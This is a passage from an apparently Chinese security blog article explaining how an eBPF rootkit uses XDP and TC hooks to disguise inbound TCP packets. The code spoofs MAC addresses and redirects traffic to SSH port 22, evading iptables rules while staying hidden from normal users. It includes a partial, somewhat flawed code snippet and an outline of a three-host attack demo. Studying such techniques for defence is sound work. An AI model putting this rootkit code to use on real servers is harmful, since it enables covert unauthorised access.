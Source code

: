 ```go
}

// 读取map，是否已经存在该client信息
struct netinfo client_key = {};
__builtin_memcpy(&client_key.mac, &pkt.eth->h_source, ETH_ALEN);

struct netinfo *client_value;
client_value = bpf_map_lookup_elem(&ingress_client, &client_key);

// 如果没找到伪装信息，则自己组装
if(!client_value) {
__builtin_memset(&client_value, 0, sizeof(client_value));
} else {
bpf_map_update_elem(&ingress_client, &client_key, &client_value, BPF_ANY);
}


// 伪装mac局域网mac信息
pkt.eth->h_source[0] = 0x00;
...

// 替换伪装ip来源 ，客户端端口不变

// 更改目标端口
pkt.tcp->dest = htons(FACK_PORT);    //22

//计算TCP SUM layer 4
ipv4_csum(pkt.tcp, sizeof(struct tcphdr), &csum);
pkt.tcp->check = csum;

//写入已伪装的map，用于TC处理egress的原mac、IP信息还原。
return XDP_PASS;
}
```


比较简单的Demo，即可实现ingress侧TCP数据包的伪装。同样，TC层处理egress方向的数据包时，只需要对伪装包的原始信息作还原即可。整个流程如下图所示：



![eBPF在XDP/TC层实现网络穿透rootkit通信链路](https://image.cnxct.com/2022/02/ebpf-evil-user-network-1.jpg)



这样，rootkit的通信链路并不影响正常用户访问，也没有对原系统做改动，隐蔽性特别好。



#### 视频演示


我们准备了三台主机测试：



1. 入侵者：cnxct\-mt2，IP为172.16.71.1。
2. 普通用户：ubuntu，IP为172.16.71.3。
3. 被入侵服务器：vm\-ubuntu，IP为172.16.71.4。开放nginx web 80端口；开放SSHD 22端口，并设定iptables规则只允许内网IP访问。
